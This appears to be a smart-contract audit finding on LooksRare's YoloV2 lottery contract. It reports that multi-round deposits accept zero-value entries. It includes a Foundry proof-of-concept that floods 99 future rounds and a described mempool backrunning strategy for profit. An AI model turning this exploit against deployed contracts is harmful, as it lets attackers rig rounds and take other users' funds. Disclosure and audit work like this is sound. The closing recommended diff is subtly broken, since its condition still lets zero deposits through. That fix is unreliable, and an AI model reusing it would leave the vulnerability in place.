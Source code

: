 Acrobatic Flint Lobster

high

# Griefing Vulnerability: The `MAXIMUM_NUMBER_OF_DEPOSITS_PER_ROUND` on future rounds can be wasted on zero-value deposits.

## Summary

Each round imposes a [`MAXIMUM_NUMBER_OF_DEPOSITS_PER_ROUND`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L81), which represents a scarce upper boundary on the number of individual deposits which can be made before a round is considered closed and the winnings are drawn.

The expectation is that at a minimum, a single deposit must at least be the [`valuePerEntry`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L197).

However, this requirement can be bypassed by an attacker, who can flood future [`YoloV2`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol) rounds with empty deposits - reducing liveliness of playability, and in the worst case, introducing significant value-extraction opportunities through frontrunning.

## Vulnerability Detail

When accepting multi-round deposits via [`depositETHIntoMultipleRounds(uint256[])`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L312C14-L312C70), we only verify the sum-total of  [`amounts`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L312C14-L312C70) is equal to the `msg.value`, but do not validate that each individual array element satisfies the [`roundValuePerEntry`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L338C33-L338C51):

```solidity
function depositETHIntoMultipleRounds(uint256[] calldata amounts) external payable nonReentrant whenNotPaused {
    uint256 numberOfRounds = amounts.length;
    if (msg.value == 0 || numberOfRounds == 0) {
        revert ZeroDeposits();
    }

    // ...

    uint256 expectedValue;
    uint256[] memory entriesCounts = new uint256[](numberOfRounds);

    for (uint256 i; i < numberOfRounds; ++i) {
    
        // ...

        uint256 depositAmount = amounts[i];
        
@>      if (depositAmount % roundValuePerEntry != 0) { /// @audit accepts_zero
            revert InvalidValue();
        }
        uint256 entriesCount = _depositETH(round, roundId, roundValuePerEntry, depositAmount);
        expectedValue += depositAmount;

        entriesCounts[i] = entriesCount;
    }

    if (expectedValue != msg.value) {
        revert InvalidValue();
    }

    // ...
    
}
```

This allows an attacker to create an array of [`amounts`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L312C14-L312C70) where a single array element is equal to the `msg.value`, [which must be non-zero](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L314), and all other array elements are `0`.

In the following example, we demonstrate how an attacker may flood `99` future rounds of [`YoloV2`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol) with empty deposits:

```solidity
function test_sherlock_consumeDeposits() public {
    uint256[] memory amounts = new uint256[](1);
    amounts[0] = 10 ether;

    vm.deal(user1, 10 ether);
    vm.prank(user1);
    yolo.depositETHIntoMultipleRounds{value: 10 ether}(amounts);

    vm.deal(user2, 100 ether);
    amounts = new uint256[](100);
    amounts[0] = 1 ether;

    // Grief the next 100 rounds.
    for (uint256 i = 0; i < 99; i += 1) {
        vm.prank(user2);
        yolo.depositETHIntoMultipleRounds{value: 1 ether}(amounts);
    }

    for (uint256 i = 0; i < 99; i += 1) {
        (,,,,,,,,, IYoloV2.Deposit[] memory deposits) = yolo.getRound(i + 2);
        assertEq(deposits.length, 99);
    }
}
```

The implication here is that the capital efficiency, liveliness and fairness of `99` future rounds have been manipulated significantly.

Additionally, it must be emphasised that there is little restrictive financial incentive against a wealthy attacker from capitalising upon this vulnerability, since securing illiquid deposits on future rounds comes only at the expense of securing a high win probability for the current round, as the non-zero `msg.value` is accumulated there, effectively through "normal" play.

## Impact

I've come to evaluate this as high severity, since the illiquid deposit amount can be abused for profit, as it reduces the game to a closed two-party interaction between attacker and victim.

If we consider the case where an attacker has flooded the future N rounds with `98` deposits, they can monitor the mempool in anticipation of an unsuspecting user submitting an attractive deposit, and backrun that transaction in an effort to procure it.

When an unsuspecting user makes a valuable [`deposit(uint256,DepositCalldata[])`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L305C14-L305C75), the attacker has the freedom to immediately backrun their transaction with a deposit value greatly in excess of the honest user's deposit, in an effort to secure a probabilistically-high (near certainty) of winning through immediate termination of the round - this may seem like conventional YOLO, however in lieu of the zero deposits issue, such an attack would be significantly more expensive.

There are several other medium-severity implications of this vulnerability:
1. Attackers can circmvent the [`roundValuePerEntry`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L338C33-L338C51) invariant for both current and future rounds by distributing their `msg.value` evenly over the [`amounts`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L312C14-L312C70).
2. Congestion to users, as the next N rounds can be forced to terminate immediately on each deposit.
3. Denial of Service if the empty deposits are programmatically configured to originate from multiple addresses, satisfying [`numberOfParticipants > 1`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L1718C14-L1718C38) for round completion, forcing rounds to be closed manually via [`cancel(uint256)`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L429C14-L429C44), at expense of the [`owner`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L430).
4. A zero-value deposit will steal the win from a rightful owner for a fulfilled randomness value which rewards the final entry count share, as both of these will modulo to 0, and the malicious entry will possess higher priority in the array. This means when making an ether deposit, there is little financial incentive against callers appending hundreds of zero-value future deposits, or by sandwiching new deposits with zero-value entrants to capture a higher-priority `entryCount`.
5. Invalidation of unique element constraint for [`findUpperBound(uint256[], uint256)`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/libraries/Arrays.sol#L20C14-L20C70).

## Code Snippet

```solidity
/**
 * @inheritdoc IYoloV2
 */
function depositETHIntoMultipleRounds(uint256[] calldata amounts) external payable nonReentrant whenNotPaused {
    uint256 numberOfRounds = amounts.length;
    if (msg.value == 0 || numberOfRounds == 0) {
        revert ZeroDeposits();
    }

    uint256 startingRoundId = roundsCount;
    Round storage startingRound = rounds[startingRoundId];
    _validateRoundIsOpen(startingRound);

    _setCutoffTimeIfNotSet(startingRound);

    uint256 expectedValue;
    uint256[] memory entriesCounts = new uint256[](numberOfRounds);

    for (uint256 i; i < numberOfRounds; ++i) {
        uint256 roundId = _unsafeAdd(startingRoundId, i);
        Round storage round = rounds[roundId];
        uint256 roundValuePerEntry = round.valuePerEntry;
        if (roundValuePerEntry == 0) {
            (, , roundValuePerEntry) = _writeDataToRound({roundId: roundId, roundValue: 0});
        }

        _incrementUserDepositCount(roundId, round);

        uint256 depositAmount = amounts[i];
        if (depositAmount % roundValuePerEntry != 0) {
            revert InvalidValue();
        }
        uint256 entriesCount = _depositETH(round, roundId, roundValuePerEntry, depositAmount);
        expectedValue += depositAmount;

        entriesCounts[i] = entriesCount;
    }

    if (expectedValue != msg.value) {
        revert InvalidValue();
    }

    emit MultipleRoundsDeposited(msg.sender, startingRoundId, amounts, entriesCounts);

    if (
        _shouldDrawWinner(
            startingRound.numberOfParticipants,
            startingRound.maximumNumberOfParticipants,
            startingRound.deposits.length
        )
    ) {
        _drawWinner(startingRound, startingRoundId);
    }
}
```

## Tool used

Vim, Foundry

## Recommendation

### [YoloV2.sol#depositETHIntoMultipleRounds](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L312)

Ensure that when creating a new deposit when batching into multiple rounds that the [`roundValuePerEntry`](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L338C33-L338C51) is met:

```diff
uint256 depositAmount = amounts[i];
- if (depositAmount % roundValuePerEntry != 0) {
+ if (depositAmount % roundValuePerEntry != 0 && depositAmount > 0) {
    revert InvalidValue();
}
```
